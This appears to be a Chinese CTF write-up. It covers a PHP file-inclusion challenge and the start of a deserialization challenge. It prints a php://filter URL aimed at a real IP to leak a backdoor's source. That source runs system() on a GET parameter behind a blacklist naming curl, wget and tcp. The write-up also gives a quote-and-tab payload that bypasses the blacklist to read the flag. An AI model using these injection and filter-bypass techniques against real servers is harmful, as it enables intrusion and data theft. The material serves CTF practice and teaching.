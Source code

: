 



## [😮Mid]BlackPage

```
<!-- \<\?phps
$file = $_GET["file"];
$blacklist = "(**blacklist**)";
if (preg_match("/".$blacklist."/is",$file) == 1){
  exit("Nooo,You can't read it.");
}else{
  include $file;
}
//你能读到 mybackdoor.php 吗？

---->
```

伪协议读mybackdoor.php

```
http://121.41.7.149:65002/?file=php://filter/convert.base64-encode/resource=mybackdoor.php
```

得到mybackdoor.php源码：

```php
<?php
error_reporting(0);
function blacklist($cmd){
  $filter = "(\\<|\\>|Fl4g|php|curl| |0x|\\\\|python|gcc|less|root|etc|pass|http|ftp|cd|tcp|udp|cat|×|flag|ph|hp|wget|type|ty|\\$\\{IFS\\}|index|\\*)";
  if (preg_match("/".$filter."/is",$cmd)==1){  
      exit('Go out! This black page does not belong to you!');
  }
  else{
    system($cmd);
  }
}
blacklist($_GET['cmd']);
?>
```

`''`绕过关键字过滤、`%09`(制表符)绕过空格、占位符`?`匹配

payload：

```
http://121.41.7.149:65002/mybackdoor.php?cmd=ca''t%09/Fl??????????
```



## [😯Mid]bestLanguage

```php
<?php

error_reporting(0);

class superGate{
    public $gay = true;

    function __destruct(){
        echo file_get_contents("/flag");
        die();
    }
}
```